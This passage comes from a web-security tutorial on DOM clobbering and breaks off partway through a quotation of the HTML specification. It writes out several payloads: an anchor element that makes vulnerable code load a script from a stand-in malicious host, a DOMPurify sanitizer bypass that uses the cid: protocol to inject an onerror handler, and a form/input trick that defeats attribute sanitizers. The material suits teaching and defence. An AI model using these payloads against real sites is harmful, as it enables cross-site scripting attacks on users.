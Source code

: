 Manipulating HTML on the page allows overriding `someObject` with a DOM node, potentially introducing security vulnerabilities. For example, you can replace `someObject` with an anchor element pointing to a malicious script:

```html
<a id=someObject href=//malicious-website.com/malicious.js></a>
```

In a vulnerable code such as:

```html
<script>
  window.onload = function () {
    let someObject = window.someObject || {}
    let script = document.createElement("script")
    script.src = someObject.url
    document.body.appendChild(script)
  }
</script>
```

This method exploits the script source to execute unwanted code.

**Trick**: **`DOMPurify`** allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like **`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`** will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.

Another technique uses a **`form`** element. Certain client-side libraries inspect the attributes of a newly created form element to clean them. However, by adding an `input` with `id=attributes` inside the form, you effectively overwrite the attributes property, preventing the sanitizer from accessing the actual attributes.

You can [**find an example of this type of clobbering in this CTF writeup**](iframes-in-xss-and-csp.md#iframes-in-sop-2).

## Clobbering document object

According to the documentation it's possible to overwrite attributes of the document object using DOM Clobbering:

> The [Document](https://html.spec.whatwg.org/multipage/dom.html#document) interface [supports named properties](https://webidl.spec.whatwg.org/#dfn-support-named-properties). The [supported property names](https://webidl.spec.whatwg.org/#dfn-supported-property-names) of a [Document](https://html.spec.whatwg.org/multipage/dom.html#document) object document at any moment consist of the following, in [tree order](https://dom.spec.whatwg.org/#concept-tree-order) according to the element that contributed them, ignoring later duplicates, and with values from [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) attributes coming before values from name attributes when the same element contributes both:
>
> \- The value of the name content attribute for all [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [embed](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-embed-element), [form](https://html.spec.whatwg.org/multipage/forms.html#the-form-element), [iframe](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element), [img](https://html.spec.whatwg.org/multipage/embedded-content.html#the-img-element), and [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [object](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-object-element) elements that have a non-empty name content attribute and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root);\
> \
> \- The value of the [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute for all [exposed](https://html.spec.whatwg.org/multipage/dom.html#exposed) [object](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-object-element) elements that have a non-empty [id](https://html.spec.whatwg.org/multipage/dom.html#the-id-attribute) content attribute and are [in a document tree](https://dom.spec.whatwg.org/#in-a-document-tree) with document as their [root](https://dom.spec.whatwg.org/#concept-tree-root);\
> \